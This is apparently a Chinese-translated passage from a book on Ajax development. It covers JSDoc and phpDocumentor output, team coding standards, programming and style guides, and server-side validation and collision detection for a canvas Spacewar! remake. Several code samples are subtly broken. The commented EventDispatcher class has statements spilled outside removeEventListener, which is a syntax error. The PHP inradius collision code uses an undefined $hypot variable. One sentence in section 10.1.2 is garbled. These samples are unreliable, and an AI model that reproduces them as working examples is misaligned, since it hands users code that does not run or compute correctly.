

图 9.4  通过对注释进行小幅更改后生成的类文档。

phpDocumentor 解析的注释还有另外 27 个块级标签，如前面描述的三个标签，可用于各种不同目的，另外还有 8 个内联标签。该工具还提供了另外 20 个命令行选项，涵盖输出控制、模板使用、命名、格式化和分类。然而，如前所述，即使仅使用默认设置且没有在注释本身上投入额外精力生成的 API 文档，对开发者来说也可能非常有用。

#### 9.2.2 JSDoc

JSDoc 项目也解析注释中的内联文档，其灵感来源于 Java-Doc，但针对的是 JavaScript 源文件。它由 Perl 编写，只需安装 Perl 和 `HTML::Template` 模块即可运行。

> Perl 应该预装在大多数基于 Linux/UNIX 的操作系统（包括 MacOS X）中，ActiveState 为 Windows 提供了免费的 ActivePerl 运行时。安装后，运行 `perl -MCPAN -e 'install HTML::Template'` 即可安装 JSDoc 所需的 Perl 模块，此过程需要你回答 CPAN 交互式提示的一些基本配置问题。

JSDoc 的默认输出（如图 9.5 所示）比 phpDocumentor 更接近 JavaDoc 的外观，并且它在文件概览中包含了原始源代码。



图 9.5  由 JSDoc 生成的概览。

以下代码来自第 3 章“客户端应用架构”，定义了本书中扩展使用的核心 `EventDispatcher` 类。该类只有少量的内联注释，且没有使用块注释格式：

```
// Custom EventTarget equivalent
function EventDispatcher() { }
EventDispatcher.prototype = {
    // An object literal to store arrays of listeners by type
    events : {},

    // If it supports the type, add the listener (capture ignored)
    addEventListener : function(type, listener, capture) {
        if (this.events[type]) {
            this.events[type].push(listener);
        }
    },

    // If it supports the type, remove the listener (capture ignored)
    removeEventListener : function(type, listener, capture) {
        if (this.events[type] == undefined) {
            return;
        }
        var index = this.events[type].indexOf(listener);
        if (this.events[type][index]) {
            this.events[type].splice(index, 1);
        }
    },

    // Cycle through all event listeners, passing the event to callbacks
    dispatchEvent : function(type, event) {
        if (this.events[type]) {
            for (var i in this.events[type]) {
                if (typeof this.events[type][i] == 'function') {
                    this.events[type][i](event);
                    // Accepts an array of the contextual object
                    // and the function to call
                } else if (typeof this.events[type][i] == 'object') {
                    this.events[type][i][1].call(
                        this.events[type][i][0],
                        event
                    );
                }
            }
        }
    }
}
```

与 phpDocumentor 类似，即使代码本身没有任何可用的注释，JSDoc 也能生成信息丰富的 API 文档。图 9.6 显示了在对上述类定义运行 JSDoc 之后的输出，其中无法解析任何非块注释。尽管 `jsdoc.pl` 有许多可用的命令行选项，但此处的所有示例都使用 `jsdoc.pl -d /Library/WebServer/Documents/js_docs_out application`，以指定输出目录的完整路径（通过 `-d` 标志设置），并将包含的 JavaScript 库的根目录传递给脚本。



JSDoc 还使用了许多注释标签来将元数据和注释与代码的特定语法方面关联起来。接下来编写同一个类，使用注释块，并利用其中一些标签为注释以及某些语法本身添加上下文，因为例如，JavaScript 中的函数定义可能定义也可能不定义类的构造函数。通过使用 `@construct`，注释块断言 `function EventDispatcher()` 代码行确实定义了 `EventDispatcher` 类的构造函数。此块还包含 `@requires` 标签，表示 `EventDispatcher` 类必须在同一作用域内包含 `CustomEvent` 类。

```
/**
 * Custom EventTarget equivalent
 * @requires CustomEvent
 * @construct
 */
function EventDispatcher() { }
EventDispatcher.prototype = {
    /**
     * An object literal to store arrays of listeners by type
     */
    events : {},

    /**
     * If it supports the type, add the listener (capture ignored)
     * @param {String} type The type of event to add the listener to
     * @param {Object} listener Either a function reference or an array
     * containing references to the function and the object within whose
     * context the function needs to run.
     * @param {boolean} capture Unused, just emulating real events
     */
    addEventListener : function(type, listener, capture) {
        if (this.events[type]) {
            this.events[type].push(listener);
        }
    },

    /**
     * If it supports the type, remove the listener (capture ignored)
     * @param {String} type The type of event to add the listener to
     * @param {Object} listener Either a function reference or an array
     * containing references to the function and the object within whose
     * context the function needs to run.
     * @param {boolean} capture Unused, just emulating real events
     */
    removeEventListener : function(type, listener, capture) {
        if (this.events[type] == undefined) {
            return;
        }
    },

    var index = this.events[type].indexOf(listener);
    if (this.events[type][index]) {
        this.events[type].splice(index, 1);
    },

    /**
     * Cycle through all of the event listeners, passing the event to
     * the callbacks, generally called internally only by the class
     * extending EventDispatcher
     * @param {String} type The type of event to add the listener to
     * @param {CustomEvent} event The CustomEvent (or subclass of) to
     * pass to each listener for the given event type.
     * @see CustomEvent
     */
    dispatchEvent : function(type, event) {
        if (this.events[type]) {
            for (var i in this.events[type]) {
                if (typeof this.events[type][i] == 'function') {
                    this.events[type][i](event);
                    // Accepts an array of the contextual object
                    // and the function to call
                } else if (typeof this.events[type][i] == 'object') {
                    this.events[type][i][1].call(
                        this.events[type][i][0],
                        event
                    );
                }
            }
        }
    }
}
```

现在包含在类中的注释块像之前一样使用了 `@param` 标签，但数据类型放在花括号中，因为 `@param` 的用法并不要求指定数据类型，只需变量名。`dispatchEvent` 方法的注释块还包含了 `@see` 标签，它创建了一个显式的交叉引用，指向为 `CustomEvent` 页面生成的页面；即使 JSDoc 已经从类注释块中的 `@requires` 标签和同一 `dispatchEvent` 方法注释块中的 `@param {CustomEvent}` 行创建了交叉引用，注释中仍然包含了此内容（如图 9.7 及其余新生成的输出所示）。


### 9.3 内部开发者文档

完善的API文档需要与之互补，内部开发者文档应包含更多跨越整个应用的信息，例如架构信息、设计文档、项目愿望清单、编码标准、开发教程以及风格指南。

每种文档都有不同的要求，并取决于具体的应用，因为仅通过API接口交互的应用，除了其文档本身的风格外，几乎不需要额外的风格指南。

为了使开发者驱动的文档仓库能够有效运作，它需要允许开发者轻松地创建、添加内容到不同区域和单个文档中。同时，还需要提供便捷的方式来导航（并在其中搜索）现有文档，以便开发者不必浪费时间去追踪他们需要的信息。因此，Wiki（一种用户既可以阅读也可以编写的站点）因其协作性而广泛用于文档编写。

无论驱动内部开发者文档的是何种Web应用程序（如果有的话），开发者都需要能够轻松管理和访问信息。这些信息包括编码标准、示例和风格指南，开发者在编码的任何时刻都可能需要参考它们。

#### 9.3.1 编码标准

项目启动时，开发者就应该从一开始就就编码标准达成一致，因为这将使任何开发者在日后处理代码时变得容易得多。遵守编码标准仅仅意味着开发者同意以与团队其他人相同的风格和格式编写代码，无论其个人偏好如何（如果与已达成的标准不同）。这包括使用制表符或空格进行缩进、制表符宽度、代码块风格，以及如何将长行代码拆分成可读的块。

这个过程始于每种编程语言的版本选择。因为PHP4仍然拥有庞大的安装基础，应用程序可能仍然需要PHP4兼容性，但此时应尽可能推动仅支持PHP5（特别是最新的稳定版本）。这会对可用的库函数和扩展产生重大影响，开发者需要就此达成一致，因为PDO扩展提供了极其有用且强大的功能，但需要较新版本的PHP。

对于客户端技术，这种标准化可能变得相当困难，因为决定按照HTML4、CSS2.0和JavaScript 1.5标准进行开发，就排除了所有版本的IE浏览器，因为IE仍然不完全支持其中任何一项。按照XHTML1.1、CSS2.1和JavaScript 1.6标准开发仍然可以运行良好，但开发者只需就如何处理例外和变通方法达成一致，使IE表现得好像支持所使用的特性一样（如第4章“调试客户端代码”中所述）。

接下来，开发者必须就可接受的警告和通知级别达成一致。对于某些应用，通知可能对开发者无关紧要，而其他开发团队则力求在运行应用程序时不产生任何通知。例如，对于PHP，这意味着就所需的php.ini设置达成一致。以下设置尤其应作为开发的良好起点，它们创建了一个更严格的PHP环境，同时启用严格的错误报告，以便在问题演变成错误之前捕获它们：

```
; 禁止使用 <? 作为PHP起始标签
short_open_tag = Off
; 禁止使用ASP风格的 (<% %>) PHP标签
asp_tags = Off
; 保持安全模式关闭
safe_mode = Off
; 保持最大执行时间较短
max_execution_time = 10
; 保持最大内存使用量较低
memory_limit = 8M
; 使用严格的错误报告
error_reporting = E_STRICT
; 直接将错误显示到标准输出
display_errors = On
; 不记录错误日志，因为我们已开启错误显示
log_errors = Off
; 保持register_globals关闭
register_globals = Off
register_long_arrays = Off
register_argc_argv = Off
magic_quotes_gpc = Off
```

接下来，编码约定需要在开发者之间保持一致，这很容易做到，因为任何开发者的编辑器都提供大多数这些选项作为配置设置，可以是编辑器范围的，也可以是按项目设置的（参见图9.8中的示例）。一些开发者甚至发现，将`.vimrc`设置等配置发布给其他开发者复制到他们自己的环境中很有用。这些编码约定和格式选项包括行尾符、如何使用花括号（“{”和“}”）、制表符与空格，以及如何将大型函数调用拆分到多行。

仅使用Unix风格的行尾符往往使开发变得更容易，尤其是在源代码管理方面。当编辑器在保存时将所有行尾符更改为它们自己的默认设置时，这会在源代码控制中显示为文件中每一行都有差异，因为它们都被修改了。这使得在版本发生冲突时几乎无法准确合并更改，并导致开发者之间无休止的挫败感。从一开始就商定行尾符并强制执行该决定，将限制开发者不得不将文件回退到具有正确行尾符的早期版本的次数。

花括号的使用通常有三种情况，如下所示，这三个示例均取自第4章中`whatDoYouGetWhenYouMultiplySixByNine()`的定义。第一个示例展示了本书中使用的格式，将左花括号与块声明（本例中为`function whatDoYouGetWhenYouMultiplySixByNine(e)`）保持在同一行，并在声明与花括号之间留有空格以提高可读性：

```
function whatDoYouGetWhenYouMultiplySixByNine(e) {
    if (!answers[e.type]) {
        answers[e.type] = {};
    }

    answers[e.type].whatDoYouGetWhenYouMultiplySixByNine = 42;
}
```

第二个示例看起来与第一个几乎相同，但移除了块声明行中的可选空格：

```
function whatDoYouGetWhenYouMultiplySixByNine(e){
    if(!answers[e.type]){
        answers[e.type] = {};
    }
    answers[e.type].whatDoYouGetWhenYouMultiplySixByNine = 42;
}
```

第三个也是最后一个示例，将左花括号放在声明之后的下一行，有些开发者偏好这种方式，因为它使所有花括号都位于其制表符缩进处，使某些人更容易查看块作用域：

```
function whatDoYouGetWhenYouMultiplySixByNine(e)
{
    if (!answers[e.type])
    {
        answers[e.type] = {};
    }
    answers[e.type].whatDoYouGetWhenYouMultiplySixByNine = 42;
}
```

谈到制表符与空格用于缩进时，使用固定数量的空格（通常是四个）起初似乎是最能确保缩进一致性的方法。然而，这可能会使代码对那些偏好两、六、八或其他数量空格作为缩进的开发者来说可读性降低。通过使用制表符，开发者可以将制表符宽度设置为他们喜欢的任何值，而不会改变代码的最终格式。以下`.vimrc`设置将制表符宽度和缩进设置为等效于四个空格：

```
" 制表符大小
set shiftwidth=4
set softtabstop=4

" 如果偏好，取消注释下一行以使用空格代替制表符
" set expandtab
```

编码约定还应包括变量、函数、方法和对象命名实践。当语言支持大写和小写字母数字时，


#### 9.3.2 编程指南

在开发者就语法使用惯例达成一致后，编程指南会围绕应用架构推动惯例的建立。他们还会就如何编写与应用内函数库和 API 交互的代码达成一致。虽然拥有 API 文档和编码规范确实有帮助，但当提供具体示例时，开发者能更轻松地理解应用的各个部分是如何（或将来会如何）组合在一起的。以下代码展示了如何使用 PHP 的 `User` 数据库对象在 `user` 数据库表中创建一条新记录。它捕获了两种可能的异常类型：`PasswordFormatException` 和 `DatabaseErrorException`：

```php
try {
    $user = new User();
    $user->set('login', 'vyv');
    $user->set('name', 'Vyvyan Basterd');
    $user->set('password', '4ng1l4');
    // 成功时返回 true
    return $user->save();
} catch (PasswordFormatException $e) {
    // 提示输入新密码
} catch (DatabaseErrorException $e) {
    // 处理数据库查询错误
}
```

前面的示例并未展示 User 类的所有字段、所有方法，甚至没有展示数据库模式。但它展示了一个完整的示例，说明了如何从头到尾创建一个新的用户记录，包括如何在过程中捕获可能抛出的异常。

接下来的这个 JavaScript 示例展示了如何扩展 EventDispatcher 对象，并通过从父类继承的内置方法来调用事件监听器：

```javascript
function Universe() { }
Universe.prototype = new EventDispatcher;
Universe.prototype.events = {
    "init" : []
}
Universe.prototype.jumpStartTheSecondBigBang = function() {
    var e = new CustomEvent();
    e.universe = this;
    this.dispatchEvent("init", e);
}
```

其他 JavaScript 代码随后可以通过以下过程之一向 `Universe` 实例添加监听器：

```javascript
// 假设已创建以下实例
var universe = new Universe();

// 将一个函数 "flingMatter"（在其他地方定义）作为监听器添加
universe.addEventListener("init", flingMatter);

// 将对象 "matter" 的方法 "fling"（在其他地方定义）作为监听器添加
// 被调用时，它将在 "matter" 对象的上下文中运行
universe.addEventListener("init", [matter, Matter.prototype.fling]);
```

编程指南当然可以交叉引用每个功能模块在对象接口背后如何工作的细节，但这不应分散对演示用法本身的注意力。开发者需要理解如何使用可用的对象，然后才能普遍认识到使用它们的价值，而不是在自己的代码中重新实现相同的逻辑。

#### 9.3.3 样式指南

与开发者的编程指南类似，样式指南通过提供使用可用的标记块和 CSS 规则来实现一致用户界面的方向和示例，帮助设计师和客户端开发人员保持一致性。由于 CSS 没有相同的代码结构和成熟的文档生成工具，这项实践需要设计师和开发人员付出更多努力来创建，但它使培训他人或自己回忆如何高效实现特定界面组件变得容易得多。

虽然编码示例在这里有所帮助，但样式指南也需要视觉效果来帮助展示某个特定 CSS 规则或 XHTML 元素的直接影响。以下代码示例是第 1 章“可用性”中选项卡式注册界面的简化版本，为设计师和开发人员提供了文档本身中选项卡布局结构的核心：

```html
<div>
<ol class="navigation_tabs">
    <li class="selected">
        <a href="./?step=1">选项卡一（选中）</a>
    </li>
    <li>
        <a href="./?step=2">选项卡二</a>
    </li>
    <li>
        <a href="./?step=3">选项卡三</a>
    </li>
</ol>

（选项卡一的内容）
</div>
```

然而，这并不如图 9.9 中所示的相同标记那样具有冲击力。



通过将演示作为样式指南的一部分，找到某个界面所需的实现变得容易得多，使用它也同样简单。这也使编写样式指南比纯粹的标记和样式堆砌更有趣，并创建了一个更像是组件库而非文本章节的东西。

# 第 10 章

## 游戏开发

## 本章内容

- 10.1 一种不同的安全性 299
- 10.2 单人游戏 304
- 10.3 “实时”多人游戏 310

Ajax 驱动的游戏开发结合了高需求应用在可扩展性和性能方面的挑战，但通常允许开发者突破当前网络技术的边界。就像控制台或电脑游戏一样，如果这些技术使用得当，用户会接受更严格的最低要求，以获得使用更先进技术带来的更好体验。

本章将重点关注 *《宇宙冲突》*，它是 *《太空战争！》* 的一个实现。*《太空战争！》* 于 1961 年在 PDP-1 计算机上创建，是最早的数字计算机游戏之一。它已使用 `canvas` HTML5 元素和 Ajax 重新创建（如图 10.1 所示）。这个版本允许两名玩家从不同的机器上对战，而不是像原版及其后的移植版那样在一台机器上。游戏的规则非常简单，设置也很简单。两艘飞船，各由一名用户控制，试图在不陷入屏幕中央恒星引力的情况下击中对方。


**图 10.1** 在 `canvas` 中呈现的 *《太空战争！》*。

### 10.1 一种不同的安全性

由于 Ajax 驱动的游戏其界面是明文标记和 JavaScript，用户有能力（通过浏览器扩展和用户脚本）改变游戏本身的行为或数据。任何分数、任何由 JavaScript 控制的动作以及任何页面内的元素都可能直接置于用户的控制之下，就像任何其他 Web 应用程序一样。挑战在于明确对于给定应用，易用性（或在此情况下的可玩性）或安全性的优先级。

通过服务器端操作对游戏施加的控制越多，应用程序需要进行的往返次数就越多，游戏的响应速度就越慢。平衡点在于攻击者通过接管界面的某些方面能实现什么。如果一个简单的函数调用比用户实际玩游戏更快、更容易地摧毁对手，那么就会有人找到该函数并使用它。如果脚本本身在没有检查的情况下保存当前分数，那么用户就会找到脚本存储分数的位置，并给自己一个更高的分数供游戏记录。

在范围的一端，存在仅为简单乐趣而实现的单人游戏——不记录任何内容，只提供单次游戏会话。对于这类游戏，作弊的最大回报是看到一个并非凭实力获得的高分。由于没有玩家排名或高分记录，在这种情况下对安全性的需求大大降低，因为攻击者根本没有作弊的动机。即使有人确实截取了不正当获得的高分的截图，它也不会对其他用户产生影响，也不会对整个游戏构成威胁。

在这种情况下，逻辑、评分和验证都可以驻留在 JavaScript 本身中，应用程序无需与服务器进行往返，除非游戏需要更多信息。这些信息可能采用多级游戏的形式，使用延迟加载来加载额外的关卡或资源以实现更快的启动；另一个例子也可能包括基于文本的冒险游戏，这类游戏数据量太大，无法有效地一次性保存在浏览器中。

一旦作弊开始通过玩家排名或多人游戏影响其他玩家（在这些游戏中，作弊可以确保击败另一名玩家），应用程序就需要安全保护来保护那些想公平玩游戏的玩家。即使是玩家为了获得最高排名而作弊的情况，也会打击真实用户的积极性，导致他们失去兴趣并转向其他事物。


#### 10.1.1 验证

Ajax 驱动的游戏所需的验证与其他类型的 Web 应用程序所需的验证没有太大区别，尽管应用程序逻辑的验证要求可能复杂得多。数据验证是确保服务器端应用程序安全性的第一步（当然，与身份验证和授权一起）。

与典型 Web 应用程序不同的验证部分，来自于可以根据情况快速变化的数据约束。当一艘船在屏幕上移动时，它发送到服务器的位置有非常具体的要求。由于飞船有最高速度和最大加速度，并且服务器跟踪飞船的完整位置（x, y, 角度, x 速度, y 速度, 加速度和旋转），应用程序可以将当前的位置、速度和加速度与每个分量的变化进行比较。

以下 PHP 代码接收来自 Ajax 请求的已发布位置信息，并根据飞船运动的限制进行验证。上一次的位置数据存储在变量 `$last` 中，自收到上次位置以来的时间存储在变量 `$time` 中。代码获取上次已知的位置和自收到该位置以来的时间间隔，并测试提交的角度是否在飞船可能旋转的角度范围内：

```php
$data = array(
    'x' => (isset($_POST['x']) ? (double)$_POST['x'] : 0),
    'y' => (isset($_POST['y']) ? (double)$_POST['y'] : 0),
    'xspeed' => (isset($_POST['xspeed'])
        ? (double)$_POST['xspeed'] : 0),
    'yspeed' => (isset($_POST['yspeed'])
        ? (double)$_POST['yspeed'] : 0),
    'angle' => (isset($_POST['angle']) ? (double)$_POST['angle'] : 0),
    'acceleration' => (isset($_POST['acceleration'])
        ? (int)$_POST['acceleration'] : 0),
    'rotation' => (isset($_POST['rotation'])
        ? (int)$_POST['rotation'] : 0)
);

/**
 * Look at the potential range of rotation and return
 * a Boolean as to whether the current rotation passes
 */
// Rotation can be clockwise, counter-clockwise, or none
if ($data['rotation'] > 0) {
    $data['rotation'] = 1;
} else if ($data['rotation'] < 0) {
    $data['rotation'] = -1;
}
$minimum = ($rotationspeed * $tickTime + $last['angle']) % 360;
$maximum = (-$rotationspeed * $tickTime + $last['angle']) % 360;
// Range covers all possible angles
if (abs($maximum - $minimum) >= 720) {
    return true;
} else {
    $minflipped = false;
    if ($minimum < 0) {
        $minflipped = true;
        $minimum += 360;
    }
    $maxflipped = false;
    if ($maximum > 0) {
        $maxflipped = true;
        $maximum -= 360;
    }
    return ( (
        ($minflipped && $minimum > $data['angle']) ||
        (!$minflipped && $minimum < $data['angle'])
    ) && (
        ($maxflipped && $data['angle'] < $maximum) ||
        (!$maxflipped && $data['angle'] > $maximum)
    ) );
}
```

通过将位置与潜在位置进行比较，服务器端应用程序可以确保飞船不会在不使用游戏内跃迁能力的情况下突然移动。该技术仍然将部分移动验证保留在客户端，仅仅因为客户端无法与服务器进行实时的流式通信。然而，通过尽可能增加通信量并设置合理（但仍然严格）的超时时间（不超过几秒钟），潜在的移动范围可以保持更小和更易于管理。

#### 10.1.2 服务端逻辑

尽可能将逻辑保留在服务器端而非客户端，可以使游戏更安全，免受攻击者的影响。如果当前分数的逻辑和存储超出了用户的控制范围，用户只能影响自己的分数，而不会影响真实数据。

在 *Universe Conflict* 中，当飞船撞上恒星时，碰撞会摧毁飞船。如果飞船和恒星之间的碰撞检测发生在一个像下面这样的 JavaScript 函数中，用户可以轻松地覆盖该函数的行为：

```javascript
/**
 * This simple hit test uses the radius rather
 * than complex shapes in order to keep things simple.
 */
Matter.prototype.hitTest = function(otherMatter) {
    return Math.sqrt(
        Math.pow(
            this.position.x - otherMatter.position.x,
            2
        ) +
        Math.pow(
            this.position.y - otherMatter.position.y,
            2
        )
    ) < this.radius + otherMatter.radius;
}
```

如果 PHP 处理这个逻辑而不是 JavaScript，应用程序就可以将飞船是否爆炸的决策权从浏览器控制中移开，重新交还给服务器，使其远离用户脚本的控制。服务器上的应用程序只需要包含游戏的初始配置和规则，并将其提供给客户端。

以下代码示例获取飞船的潜在移动，并对屏幕上恒星的已知位置进行碰撞检测。相同的逻辑可以扩展到对屏幕上其他移动物体的碰撞检测；碰撞检测只需要使用坐标范围，而不是用于恒星的静态坐标。为了对从开始到结束的潜在值范围进行实际的碰撞检测，脚本会查看上一个已知坐标、新的（已验证的）坐标，并使用三角形几何找到该路径上距离恒星最近的点。图 10.2 显示了这种几何关系，其中 a 代表最后一个已知的飞船坐标，b 代表当前坐标，c 代表恒星的坐标，r 代表由这三个点构成的三角形的内切圆半径。



图 10.2  碰撞检测背后的三角形和几何结构。

> 因为相对于飞船潜在速度的时间间隔非常短，这个游戏可以使用简单的线性坐标和基本的平面三角形几何。如果时间间隔变长或飞船能移动得更快，游戏将需要考虑弯曲路径，因为飞船将有能力在给定间隔内移动更远的距离。

```php
// Distance from last to now
$side1 = hypot($last['x'] - $data['x'], $last['y'] - $data['y']);
// Distance from last to star
$side2 = hypot($last['x'] - $star['x'], $last['y'] - $star['y']);
// Distance from star to now
$side3 = hypot($star['x'] - $data['x'], $star['y'] - $data['y']);
$semiperimeter = ($side1 + $side2 + $hypot) / 2;
$area = sqrt(
    $semiperimeter *
    ($semiperimeter - $side1) *
    ($semiperimeter - $side2) *
    ($semiperimeter - $hypot)
);
$inradius = $area / $semiperimeter;
$hit = 2 * $inradius < $ship['radius'] + $star['radius'];
```

这段代码找到由上一个位置、新位置和恒星这三个点构成的三角形。然后使用公式 Δ/s，即三角形面积除以三角形半周长，来求出该三角形的内切圆半径。碰撞检测的最后一步简单地比较内切圆半径的两倍长度与飞船半径和恒星半径之和。

服务器端逻辑验证不必完全取代客户端逻辑，就像其他 Web 应用程序一样。客户端逻辑的存在只是为了改善用户体验，而不是为了强制客户端应用程序仅使用服务器的响应来进行应用程序事件和决策。这种做法的目的是，而不是将响应用作这些事件和决策的强制执行。

### 10.2 单人游戏

整个 Web 应用程序的性能对用户的影响确实很大，因为他们只能忍受一段时间的迟缓反应。然而，在大多数 Web 应用程序中，某些反应出现缓慢的情况可以比其他情况持续更长时间，只要性能滞后不会在整个界面中持续存在。对于 Ajax 驱动的游戏，即使偶尔出现的性能下降，即使比较少见，也会毁掉体验。

> 因为 Canvas 本身不实现任何动画方法，而且 WHATWG (www.whatwg.org) 在创建该元素时并未考虑动画，所以其性能无法满足用户对第一人称射击或三维赛车等高要求游戏的期望。开发者已经编写了一些此类游戏作为概念验证，但帧率会下降到每秒仅几帧，即使没有纹理、光照、运动模糊或任何其他常见做法。


#### 10.2.1 使用 Canvas 实现双缓冲

除了第5章“性能优化”中描述的技术外，某些方法也有助于提升性能。对于一款网络动作游戏，性能在保持游戏可玩性方面起着至关重要的作用。用户的操作必须产生即时反馈，同时帧率必须保持在足够高的水平，才能让用户感觉动作流畅。

由于`canvas`标签在早期实现中还存在，每个浏览器都以其自身的方式来解析这个初步标准。Safari 和 Firefox 默认实现了帧缓冲。这意味着，一旦一个 JavaScript 函数或事件开始向 `canvas` 上下文绘制，这些浏览器会等待发起绘制的函数（即线程）执行完毕后，才渲染所有绘制方法调用产生的图像。另一方面，Opera 没有实现这种缓冲，它会立即将每个命令绘制到屏幕上。

当推到 `canvas` 元素所能处理的极限时，这种浏览器渲染方式的差异会导致最终用户获得不同的体验。以以下生成元胞自动机的代码示例为例（更多信息请参阅初等元胞自动机，http://mathworld.wolfram.com/ElementaryCellularAutomaton.html）。尽管 `canvas` 元素并未提供绘制单个像素的方法，但这个 JavaScript `Rule` 类通过绘制单个像素的方块来尽可能地达到相同的效果：

```
function Rule() {
    this.canvas = document.getElementById("ca");
    this.xmax = parseInt(this.canvas.getAttribute("width"));
    this.ymax = parseInt(this.canvas.getAttribute("height"));
    this.canvas.style.height = this.ymax + "px";
    this.canvas.style.width = this.xmax + "px";
    this.context = this.canvas.getContext("2d");
}
Rule.prototype = {
    canvas : null,
    context : null,
    timeout : null,
    dots : [[]],
    map : [[[1,2],[4,8]],[[16,32],[64,128]]],
    rule : 0,

    prepare : function() {
        this.context.fillStyle = "white";
        this.context.fillRect(0, 0, this.xmax, this.ymax);
        this.context.fillStyle = "black";
        this.rule = parseInt(document.getElementById("number").value);
        if (this.rule < 0 || this.rule > 255) {
            this.rule = 0;
        }
        // 第一行
        var middle = Math.round(this.xmax / 2);
        for (var i = 0; i < this.xmax; i++) {
            this.dots[0][i] = (i == middle) ? 1 : 0;
        }
    },

    draw : function() {
        this.prepare();
        for (var y = 1; y < this.ymax; y++) {
            this.drawLine(y);
            this.dots[0] = this.dots[1];
        }
    },

    drawLine : function(y) {
        this.dots[1] = [];
        for (var x = 0; x < this.xmax; x++) {
            var x1 = this.dots[0][x-1] | 0;
            var x2 = this.dots[0][x];
            var x3 = this.dots[0][x + 1] | 0;
            if (this.map[x1][x2][x3] & this.rule) {
                this.dots[1][x] = 1;
                this.context.fillRect(x, y, 1, 1);
            } else {
                this.dots[1][x] = 0;
            }
        }
        this.dots[0] = this.dots[1];
    }
}

var ca;
window.addEventListener(
    'load',
    function() {
        ca = new Rule();
    },
    false
);
```

当与以下标记配合使用时，该类拥有一个 400×496 像素的屏幕，共计 198,400 个像素：

```html
<h1>one-dimensional cellular automata</h1>

<form id="pickone" onsubmit="ca.draw();return false;">
    <label for="number">
        Enter an integer from 0 – 255:
        <input type="text" maxlength="3" id="number" />
    </label>
    <input type="submit" value="Draw" />
</form>

<canvas id="ca" width="400" height="496"></canvas>
